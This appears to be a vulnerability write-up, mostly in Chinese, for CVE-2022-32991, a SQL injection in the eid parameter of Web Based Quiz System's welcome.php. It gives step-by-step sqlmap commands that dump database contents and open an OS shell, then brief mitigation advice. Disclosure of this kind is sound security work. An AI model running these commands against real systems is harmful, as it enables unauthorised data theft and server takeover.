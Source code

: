 # CVE-2022-32991 Web Based Quiz System SQL Injection

## Description

Web Based Quiz System v1.0 的 welcome.php 中的eid参数被发现包含一个SQL注入漏洞。

## Explanation of exploit; PoC

1. 漏洞文件welcome.php位于网站根目录。第93行没有过滤eid参数，在第96行直接带入数据库查询，导致SQL注入漏洞：
    ![](images/CVE-2022-32991-1.png)

   2. 先注册一个普通用户然后登录，然后点击 start 按钮，用 Burp Suite 抓取数据包如下图：
    ![](images/CVE-2022-32991-2.png)

3. 将数据包保存为 eid.txt，使用sqlmap获取数据库信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid`，如下图：
    ![](images/CVE-2022-32991-3.png)
    ![](images/CVE-2022-32991-4.png)

4. 获取数据库信息后，使用sqlmap获取表信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf --tables`，如下图：
    ![](images/CVE-2022-32991-5.png)

5. 获取表信息后，使用sqlmap获取列信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf -T flag --columns`，如下图：
    ![](images/CVE-2022-32991-6.png)

6. 获取列信息后，使用sqlmap获取数据，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf -T flag -C flag --dump`，如下图：
    ![](images/CVE-2022-32991-7.png)

7. 也可以获取 os-shell, sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid --os-shell`，如下图：
    ![](images/CVE-2022-32991-8.png)

## Mitigation

1. 对输入的数据进行过滤，防止SQL注入漏洞。
2. 使用预编译语句，防止SQL注入漏洞。

## Refer

- https://nvd.nist.gov/vuln/detail/CVE-2022-32991
- https://www.yuque.com/docs/share/fd95cc4d-2a38-4e5a-9fac-bfa3534f8056